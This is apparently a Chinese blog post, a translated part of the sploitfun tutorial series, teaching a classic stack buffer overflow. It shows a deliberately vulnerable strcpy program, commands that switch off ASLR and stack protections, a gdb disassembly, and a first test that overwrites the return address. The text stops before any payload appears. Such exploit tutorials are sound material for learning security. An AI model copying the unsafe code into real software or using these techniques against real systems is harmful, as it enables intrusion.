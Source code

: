 ```yaml
---
layout: post
title: 经典的栈溢出
excerpt: "sploitfun系列教程之1.1经典的栈溢出"
categories: [sploitfun系列教程]
comments: true
---
```


漏洞代码
```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```
编译
```shell
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack -o vuln vuln.c -m32
chmod 777 vuln
```
上边的代码中第二部分存在溢出漏洞。

### Return Address Overwrite
通过覆盖‘return address’地址来实现代码运行

首先查看main方法中的汇编
```shell
gdb vuln
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   0x0804843d <+0>:	push   ebp
   0x0804843e <+1>:	mov    ebp,esp
   0x08048440 <+3>:	and    esp,0xfffffff0
   0x08048443 <+6>:	sub    esp,0x110
   0x08048449 <+12>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804844c <+15>:	add    eax,0x4
   0x0804844f <+18>:	mov    eax,DWORD PTR [eax]
   0x08048451 <+20>:	mov    DWORD PTR [esp+0x4],eax
   0x08048455 <+24>:	lea    eax,[esp+0x10]
   0x08048459 <+28>:	mov    DWORD PTR [esp],eax
   0x0804845c <+31>:	call   0x8048310 <strcpy@plt>
   0x08048461 <+36>:	lea    eax,[esp+0x10]
   0x08048465 <+40>:	mov    DWORD PTR [esp+0x4],eax
   0x08048469 <+44>:	mov    DWORD PTR [esp],0x8048514
   0x08048470 <+51>:	call   0x8048300 <printf@plt>
   0x08048475 <+56>:	mov    eax,0x0
   0x0804847a <+61>:	leave  
   0x0804847b <+62>:	ret    
End of assembler dump.

```
#### 测试第一步：Return Address是否可以被覆盖
```shell
gdb vuln                
gdb-peda$ r `python -c 'print "A"*300'`
gdb-peda$ p/x $eip
```